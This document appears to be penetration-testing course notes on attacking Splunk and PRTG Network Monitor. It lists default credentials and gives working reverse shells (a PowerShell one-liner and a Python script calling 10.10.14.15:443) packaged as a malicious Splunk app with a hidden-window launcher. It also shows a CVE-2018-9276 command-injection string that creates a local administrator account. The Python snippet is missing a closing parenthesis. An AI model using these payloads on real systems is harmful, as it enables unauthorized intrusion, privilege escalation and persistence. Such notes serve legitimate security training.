 # **Splunk - Discovery & Enumeration**

**Default Port: 8000**
Older default Credentials :  `admin:changeme`
The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication.

# **Attacking Splunk**

## **Abusing Built-In Functionality**

[https://github.com/0xjpuff/reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk)

```
tree splunk_shell/splunk_shell/
├── bin
└── default
```

The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file. 

### Windows

Our reverse shell will be a PowerShell one-liner. (save as run.sp1 and locate it at bin directory)

A simple and small reverse shell. Options and help removed to save space.
Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
```powershell
 $client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf)  file tells Splunk which script to run and any other conditions. Here we
 set the app as enabled and tell Splunk to run the script every 10 seconds. 

```
cat inputs.conf 
[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner: 

```
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are created, we can create a tarball or `.spl` file.

```
tar -cvzf updater.tar.gz splunk_shell/splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

The next step is to choose `Install app from file` and upload the application.

![image.png](../..//NMT_image0.png)

### Linux

If we were dealing with a Linux host, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app. 

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash'
```

# **PRTG Network Monitor**

Default Credentials: `prtgadmin:prtgadmin`.

## Check Version

```bash
curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
```

## CVE-2018-9276

Versión: `17.3.33.283`.

When creating a new notification, the `Parameter` field is passed directly into a PowerShell script without any type of input sanitization.

To begin, mouse over `Setup` in the top right and then the `Account Settings` menu and finally click on `Notifications`.

![image.png](../..//NMT_image1.png)

Next, click on `Add new notification`.


![image.png](../../Images/NMT_image2.png)

Give the notification a name and scroll down and tick the box next to `EXECUTE PROGRAM`. Under `Program File`, select `Demo exe notification - outfile.ps1` from the drop-down. Finally, in the parameter field, enter a command.  For our purposes, we will add a new local admin user by entering:

```bash
test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add  
```

 During an actual assessment, we may want to do something that does not change the system, such as getting a reverse shell or connection to our favorite C2. Finally, click the `Save` button.

![image.png](../..//NMT_image3.png)

After clicking `Save`, we will be redirected to the `Notifications` page and see our new notification named `pwn` in the list.

Now, we could have scheduled the notification to run (and execute our command) at a later time when setting it up. This could prove handy as a persistence mechanism during a long-term engagement and is worth taking note of. Schedules can be modified in the account settings menu if we want to set it up to run at a specific time every day to get our connection back or something of that nature. At this point, all that is left is to click the `Test` button to run our notification and execute the command to add a local admin user. After clicking `Test` we will get a pop-up that says `EXE notification is queued up`. If we receive any sort of error message here, we can go back and double-check the notification settings.

### Testing

```bash
sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG
```
